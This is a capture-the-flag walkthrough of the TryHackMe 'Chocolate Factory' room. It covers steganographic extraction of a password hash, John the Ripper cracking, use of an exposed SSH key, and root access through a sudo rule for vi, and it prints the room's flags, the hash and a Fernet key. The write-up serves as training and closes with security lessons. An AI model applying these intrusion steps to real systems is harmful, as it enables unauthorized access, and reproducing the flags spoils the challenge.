

# Chocolate Factory Write-up

## Chocolate Factory Write-up

> **Scope:** This walkthrough documents activity performed only against the authorized [TryHackMe Chocolate Factory room](https://tryhackme.com/room/chocolatefactory).

### Overview

Chocolate Factory combined several independent weaknesses: data hidden inside an image, exposed password-hash material, an unencrypted SSH private key readable by the web-service account, and an unsafe `sudo` rule for `vi`. The successful path to the user shell used the exposed SSH key; the recovered password from the image did **not** authenticate over SSH in the recorded session.

| Item                                | Value                                    |
| ----------------------------------- | ---------------------------------------- |
| Target                              | `10.114.154.67`                          |
| Initial shell shown in the evidence | `www-data`                               |
| User account                        | `charlie`                                |
| User flag                           | `flag{cd5509042371b34e4826e4838b522d2e}` |
| Root flag                           | `flag{cec59161d338fef787fcb4e296b42124}` |

### Tools used

* `steghide`
* `base64`
* `hashid`
* John the Ripper
* OpenSSH
* `strings`

### 1. Inspect the image for embedded data

The file `gum_room.jpg` was identified as a JPEG with embedded data:

```bash
steghide info gum_room.jpg
```

```
"gum_room.jpg":
  format: jpeg
  capacity: 10.9 KB
  embedded file "b64.txt":
    size: 2.5 KB
    encrypted: rijndael-128, cbc
    compressed: yes
```

Extraction with `steghide` produced `b64.txt`:

```bash
steghide extract -sf gum_room.jpg
```

### 2. Decode the recovered file

The extracted file contained Base64 data. Decoding it revealed shadow-style account entries, including Charlie’s SHA-512 Crypt hash:

```bash
base64 -d b64.txt
```

```
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

The `$6$` prefix was identified as SHA-512 Crypt:

```bash
hashid '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/'
```

```
[+] SHA-512 Crypt
```

A wordlist attempt was started with John the Ripper:

```bash
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt charlie_password.txt
```

The run was stopped before completion. An external lookup reportedly returned `cn7824`, but it was rejected when tested over SSH. This is an important reminder to validate every recovered credential against the intended service rather than assuming it is reusable.

### 3. Web-service shell and local file review

The recorded session later received a shell as the Apache account:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root),27(sudo),108(lxd)
```

The working directory was `/var/www/html`. Its contents included a binary named `key_rev_key` and application files:

```
home.jpg
home.php
image.png
index.html
index.php.bak
key_rev_key
validate.php
```

> **Evidence note:** The supplied session proves `www-data` access but does not include the initial web endpoint or payload that established the shell. That delivery step is therefore not reconstructed here.

### 4. Recover Charlie’s SSH private key

The `www-data` shell could read Charlie’s private key at `/home/charlie/teleport`. Rather than publishing the sensitive key material, I saved it locally as `rsa_id`, restricted its permissions, and checked whether it was passphrase-protected:

```bash
chmod 600 rsa_id
ssh2john rsa_id > rsa_id.hash
```

```
rsa_id has no password!
```

The key provided direct SSH access as Charlie:

```bash
ssh -i rsa_id charlie@10.114.154.67
```

The account’s configured home path was inconsistent (`/home/charley`), but the accessible directory was `/home/charlie`:

```bash
cd /home/charlie
cat user.txt
```

```
flag{cd5509042371b34e4826e4838b522d2e}
```

### 5. Privilege escalation through `vi`

Charlie’s `sudo` rights exposed an interactive editor without a password:

```bash
sudo -l
```

```
User charlie may run the following commands on ip-10-114-154-67:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

Opening `vi` through this rule resulted in a root shell during the lab session:

```bash
sudo vi ./files.txt
```

```
root@ip-10-114-154-67:/home/charlie# id
uid=0(root) gid=0(root) groups=0(root)
```

> **Evidence note:** The exact in-editor escape sequence was not captured in the supplied transcript, so it is intentionally omitted. Allowing an interactive editor via `sudo` is unsafe because editors can execute commands and spawn shells; the resulting root shell demonstrates that the intended restriction was not effective.

### 6. Recover the final message

The root directory contained `root.py`, which used Fernet encryption and prompted for a key. The Python program contained an encrypted message but not the key itself.

String inspection of the web-root binary exposed the expected input and a Fernet key:

```bash
strings /var/www/html/key_rev_key
```

```
Enter your name:
laksdhfas
congratulations you have found the key:
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
Keep its safe
```

The usable Fernet key is the value inside the byte-string representation:

```
-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=
```

`root.py` was written with Python 2-style `input()` behavior. Running it with the compatible interpreter and supplying the recovered key decrypted the final message:

```
flag{cec59161d338fef787fcb4e296b42124}
```

### Attack chain



### Security lessons

1. **Do not hide credentials or password hashes in media files.** Steganography is not access control; sensitive artifacts should be removed from public or web-accessible storage.
2. **Protect private keys.** SSH private keys must not be readable by web-service accounts. Use restrictive ownership and permissions, and protect keys with passphrases where appropriate.
3. **Avoid interactive applications in `sudoers`.** Grant narrowly scoped non-interactive commands instead of editors, pagers, interpreters, or shells.
4. **Treat `sudo` exclusions as fragile.** A rule that attempts to exclude a user while allowing a powerful interactive binary can produce unexpected privilege escalation paths.
5. **Retire legacy runtime assumptions.** The decryption script depended on Python 2-style input behavior. Use supported runtimes and explicit byte handling for cryptographic code.
6. **Investigate web-service command execution.** The recorded `www-data` shell indicates the web application or its deployment paths require review, even though the initial entry point was not captured in this evidence.
